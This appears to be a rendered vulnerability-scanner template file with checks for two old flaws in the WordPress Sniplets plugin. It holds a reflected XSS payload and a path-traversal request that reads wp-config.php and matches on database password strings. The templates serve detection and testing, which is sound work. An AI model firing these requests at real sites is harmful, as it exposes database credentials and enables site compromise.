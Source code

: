 - severity - high
- tags - xss,wp-plugin,wp,edb,wpscan,cve,cve2008,wordpress,sniplets
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/sniplets/view/sniplets/warning.php?text=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers

**Type - word**
- part - body
- words
    1. \</script>\<script>alert(document.domain)\</script>

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Sniplets 1.1.2 - Local File Inclusion
## Description
- PHP remote file inclusion vulnerability in modules/syntax_highlight.php in the Sniplets 1.1.2 and 1.2.2 plugin for WordPress allows remote attackers to execute arbitrary PHP code via a URL in the libpath parameter.

- severity - high
- tags - lfi,cve,cve2008,wordpress,wp-plugin,wp,sniplets,edb,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/sniplets/modules/syntax_highlight.php?libpath=../../../../wp-config.php
### Matchers

**Type - word**
- part - body
- words
    1. DB_NAME
    2. DB_PASSWORD
- condition - and
